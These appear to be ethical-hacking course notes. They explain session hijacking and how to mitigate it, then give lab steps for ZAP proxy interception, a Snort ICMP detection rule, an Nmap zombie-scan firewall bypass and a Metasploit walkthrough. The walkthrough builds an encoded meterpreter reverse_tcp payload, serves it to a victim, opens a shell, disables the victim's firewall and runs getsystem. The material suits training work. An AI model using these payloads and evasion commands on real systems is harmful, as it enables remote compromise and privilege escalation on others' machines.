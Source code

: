 # 10 - Session Hijacking

#### <mark style="color:orange;">**Module 10 - Session Hijacking**</mark>

<details>

<summary>What is a Session Hijacking?</summary>

**Session Hijacking**, also known as session fixation or session theft, is a type of security attack where an unauthorized person gains access to a legitimate user's session on a web application. In this attack, the attacker takes control of an active user's session, allowing them to impersonate the user and perform actions on their behalf. This can lead to various security breaches and unauthorized activities.

Session hijacking typically occurs in web applications that use session management to maintain user authentication and track user interactions. Here's how a session hijacking attack works:

1. **Session Creation**: When a user logs into a web application, the server creates a unique session for that user. A session ID is generated and associated with the user's authentication.
2. **Session ID Exposure**: The session ID is typically stored as a cookie on the user's device or included in URLs. It is used to identify the user for subsequent requests.
3. **Attacker's Actions**: The attacker attempts to obtain the user's session ID. This can be done through various means, such as intercepting network traffic, stealing cookies, or tricking the user into revealing their session ID through social engineering or phishing.
4. **Session Hijacking**: Once the attacker acquires the legitimate session ID, they can use it to impersonate the user. They send requests to the web application using the stolen session ID, and the server, recognizing the session ID as valid, treats the requests as if they were coming from the legitimate user.
5. **Unauthorized Actions**: The attacker can now perform actions on the web application as if they were the victim. Depending on the application's security and the permissions associated with the user's session, this can lead to unauthorized activities, such as changing account settings, making fraudulent transactions, or stealing sensitive information.

To mitigate session hijacking, web developers and application owners should implement security measures such as:

1. **Secure Session Management**: Ensure that session IDs are generated securely, are sufficiently random, and have a short lifespan. This reduces the window of opportunity for attackers to hijack a session.
2. **Use HTTPS**: Secure communication with the web application using HTTPS to encrypt data in transit, making it more difficult for attackers to intercept session IDs.
3. **Secure Cookies**: If session IDs are stored as cookies, mark them as secure and HTTP-only to prevent JavaScript from accessing them and transmitting them over unencrypted connections.
4. **Session Regeneration**: Regenerate session IDs after login, authentication changes, or privilege elevation to make it harder for attackers to predict session IDs.
5. **IP Validation**: Implement IP address validation to ensure that sessions are only valid when accessed from the same IP address.
6. **Session Timeout**: Implement session timeouts and automatic logouts to limit the duration of active sessions.

</details>

### OWASP Zed Attack Proxy (ZAP)

* First set Victim’s Proxy settings to attacker’s IP and port 8080.
* Open ZAP and enable Break Point and click green + to view break points
* Go to settings -> local Proxies -> Change IP from localhost to network IP (in this case 10.10.10.16).
* Browse from victim and view the request and responses on the attacker machine.

{% content-ref url="../tools/zap.md" %}
[zap.md](../tools/zap.md)
{% endcontent-ref %}

## Evading IDS Firewalls and Honeypots

### Snort - Intrusion Detection

#### ICMP Detection Rule

* Open C:\Snort\rules\icmp-info.rules.
* Type alert icmp $EXTERNAL\_NET any -> $HOME\_NET 10.10.10.12 (msg:"ICMP-INFO PING"; icode:0; itype:8; reference:arachnids,135; reference:cve,1999-0265; classtype:bad-unknown; sid:472; rev:7;) in Line 21.
* Save the file.

#### Start Snort in IDS mode

* Open cmd in C:Snort and Type snort -iX -A console -c C:\Snort\etc\snort.conf -l C:\Snort\log -K ascii | here X=1 , l is small L

#### Detection

Ping the snort machine and rules will be displayed in cmd

{% embed url="https://www.snort.org/" %}

### Nmap Evasion Techniques – Firewall Rule Bypass

* Enable victim firewall. Create inbound rule and block connection from attacker IP.
* Run different scans from attacker machine. Use Zombie scan to bypass firewall rule. `nmap -sI <Zombie IP><Target IP>`

### Metasploit – Firewall Bypass

#### Payload Setup&#x20;

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e
x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe #-e encoder, -b list of bad characters to avoid

mkdir /var/www/html/share #make directory
chmod -R 755 /var/www/html/share #change rights recursively to all files and folders inside
chown -R www-data:www-data /var/www/html/share #change owner recursively owner:group
mv /root/Desktop/Test.exe /var/www/html/share #move to exploit
service apache2 start
```

#### Listener Setup

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
#Start listener
exploit -j -z #exploit -j -z exploit tells Metasploit to start the exploit.
#The -j flag tells it to run in the context of a job and -z simply means to not interact with the session once it becomes active.
```

#### Execute Exploit

```bash
#Open http://10.10.10.11/share on victim machine. Download Payload and run.
sessions -i #to view sessions
sessions -i 1 #to interact with the session created
execute -f cmd.exe -c -H #creates a channel to execute the victim command shell
shell #opens an interactive shell (cmd)
netsh firewall show opmode #to shown firewall stats
netsh advfirewall set allprofiles state off #to turn off firewall
getsystem
Type ps #show active processes
```
